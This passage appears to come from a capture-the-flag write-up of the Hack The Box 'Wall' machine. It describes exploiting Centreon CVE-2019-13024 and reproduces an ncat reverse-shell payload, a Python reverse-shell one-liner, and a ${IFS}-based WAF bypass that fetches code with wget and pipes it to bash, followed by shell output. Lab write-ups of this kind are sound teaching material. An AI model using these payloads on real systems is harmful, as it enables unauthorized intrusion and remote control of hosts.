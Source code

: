 <p>Excellent, we now have the proper credentials <code>admin/password1</code>. CVE-2019-13024 indicates the vulnerability is in <code>/main.get.php?p=60901</code>. Setting up a listener and executing the exploit with payload enabled unfortunately did not work. Looking further at the exploit code payload to attempt and understand more what is happening.</p>

{% highlight shell %}
# this value contains the payload , you can change it as you want
"nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
{% endhighlight %}

<p>I played around with different payloads and I was able to deduce that there was a <code>WAF</code> in place and interfering with the payload. With a little bit of trial and error the main thing I could figure out was that <code>spaces</code> were culprit. This was determined by modifying the exploit code to print out the result code of the <code>POST</code> request to <code>/main.get.php?p=60901</code> - a 403 return would indicate the payload was being detected by the <code>WAF</code>.</p>

<p>
<img src="{{ '/assets/htb-wall/user-exploit2.PNG' | relative_url }}">
</p>

<p>Unfortunately, I was not able to get the exploit working through the script. I decided to tackle the exploit manually through the webpage. Logging in as <code>admin/password1</code> then navigating to <code>/main.get.php?p=60901</code> we can that the nagios_bin portion of the exploit translates to the "Monitoring Engine Binary". I tested a few different payloads without success however finally I was able to get a call to my machine to download and execute a payload.<p>

{% highlight shell %}
root@kali:/var/www/html# cat pyrev.txt
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.116",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

<p>With the following payload I was finally able to get a reverse shell established.</p>

{% highlight shell %}
wget${IFS}-qO-${IFS}http://10.10.14.116/pyrev.txt${IFS}|${IFS}bash;
{% endhighlight %}

<p>
<img src="{{ '/assets/htb-wall/user-shell.PNG' | relative_url }}">
</p>

<p>
<img src="{{ '/assets/htb-wall/user-exploit-burp.PNG' | relative_url }}">
</p>

{% highlight shell %}
root@kali:~/Desktop/HTB# nc -lvnp 1337
Listening on [0.0.0.0] (family 2, port 1337)

Connection from 10.10.10.157 42836 received!
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
$ pwd
/usr/local/centreon/www
{% endhighlight %}
